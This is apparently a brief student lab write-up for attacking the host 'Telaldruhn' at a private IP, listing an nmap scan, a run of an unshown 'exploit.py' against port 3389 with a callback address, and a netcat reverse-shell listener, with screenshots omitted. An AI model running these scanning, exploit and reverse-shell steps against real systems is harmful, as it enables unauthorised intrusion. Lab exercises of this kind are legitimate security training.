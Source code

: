 ﻿# Telaldruhn 192.168.2.9
## Andrea Zonnekus 18758119

sudo nmap -p- -O -sV -oN host -Pn -sC 192.168.2.9

![](tel_aldruhn2_steps/Aspose.Words.6509d46c-f730-48c4-bead-7e0a960e53b2.001.png)

python3 exploit.py 192.168.2.9 -rp 3389 10.8.0.106

![](tel_aldruhn2_steps/Aspose.Words.6509d46c-f730-48c4-bead-7e0a960e53b2.002.png)

nc -lvnp 4444

![](tel_aldruhn2_steps/Aspose.Words.6509d46c-f730-48c4-bead-7e0a960e53b2.003.png)

